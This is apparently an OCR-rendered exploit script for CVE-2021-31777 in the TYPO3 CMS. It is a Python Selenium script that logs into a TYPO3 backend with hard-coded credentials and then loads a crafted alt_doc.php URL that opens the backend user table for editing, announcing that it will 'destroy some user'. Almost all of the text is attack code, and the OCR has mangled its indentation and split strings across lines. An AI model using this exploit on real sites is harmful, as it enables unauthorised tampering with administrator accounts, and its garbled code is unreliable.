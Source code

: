 EXP
---

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # CVE-2021-31777

    from selenium import webdriver
    import time
    import os, sys


    # Vendor: https://typo3.org/
    website_link="http://192.168.1.3/typo3_src-6.2.1/typo3/index.php"

    # enter your login username
    username="nu11secur1ty"

    # enter your login password
    password="password"

    #enter the element for username input field
    element_for_username="username"

    #enter the element for password input field
    element_for_password="p_field"

    #enter the element for submit button
    element_for_submit="commandLI"


    #browser = webdriver.Safari() #for macOS users[for others use chrome vis
    chromedriver]
    browser = webdriver.Chrome() #uncomment this line,for chrome users
    #browser = webdriver.Firefox() #uncomment this line,for chrome users

    time.sleep(3)
    browser.get((website_link))

    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    # Exploit vulnerability MySQL user table by using backend.php vulnerability
    time.sleep(3)
    # Payload link
    browser.get(("
    http://192.168.1.3/typo3_src-6.2.1/typo3/alt_doc.php?edit[be_users][1]=edit&returnUrl=mod.php%3FM%3Dsystem_BeuserTxBeuser%26moduleToken%3D56862cd856952bfd539277eebf7b21c2a85ff950#"))


    print("The payload is deployed it is time to destroy some user...\n")
    os.system('pause')

    browser.close()

    except Exception:
    #### This exception is if the user is not found in the database or
    something is wrong.
    print("Sorry, but this user who you searching for is destroyed by using of
    MySQL vulnerability in backend.php...")
